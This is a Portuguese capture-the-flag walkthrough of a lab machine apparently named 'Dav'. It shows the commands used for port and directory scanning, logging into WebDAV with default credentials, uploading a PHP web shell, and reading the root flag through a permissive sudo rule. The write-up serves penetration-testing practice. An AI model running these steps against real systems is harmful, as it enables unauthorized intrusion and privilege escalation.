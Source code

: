 # DAV

* ### Scan de portas - Verificando quais portas estão abertas.

```bash
rustscan -a 10.10.237.217
```
![image](https://github.com/lufffe/Writeups/assets/90646635/931e3886-b1b6-4554-8b87-b5d4c334526c)

![image](https://github.com/lufffe/Writeups/assets/90646635/3a911bd7-88a0-4906-afe2-7385daa85660)

* ### Verificando o que está rodando nas portas encontradas.

```bash
nmap -A -p 80 10.10.237.217
```
![image](https://github.com/lufffe/Writeups/assets/90646635/073c9bf3-bf5d-45fd-b405-406d98260636)

* ### Scan de Arquivos e Diretórios.

```bash
gobuster dir -u http://10.10.237.217 -w common.txt -t 100 --no-error
```
![image](https://github.com/lufffe/Writeups/assets/90646635/1f054303-d0ac-4e23-9bb2-8da3c7338b5b)

* ### Verificando http
![image](https://github.com/lufffe/Writeups/assets/90646635/5cbc2ff0-d0a5-424d-839c-9aa7deb41826)

* ### Pesquisei sobre credenciais default do web
![image](https://github.com/lufffe/Writeups/assets/90646635/5259702b-ae86-471f-b8e5-2068049f761e)

```bash
  cadaver http://10.10.148.190/webdav
```
![image](https://github.com/lufffe/Writeups/assets/90646635/fe1b4a85-65de-4c34-84ae-661f7bf54c10)

```bash
dav:/webdav/> put shell.php
```
![image](https://github.com/lufffe/Writeups/assets/90646635/5b80fc83-444e-4e5a-8bc6-fa069f5bffb0)

![image](https://github.com/lufffe/Writeups/assets/90646635/fbadc8d3-1aa7-4d01-9ee5-c03198641def)

```bash
www-data@ubuntu:/home/merlin$ cat user.txt
```
>#########################################################

```bash
www-data@ubuntu:/home/merlin$ sudo -l
```
![image](https://github.com/lufffe/Writeups/assets/90646635/7271207b-0054-4a37-b593-2296a169d9d3)

```bash
www-data@ubuntu:/home/merlin$ sudo /bin/cat /root/root.txt
```
>#######################################################
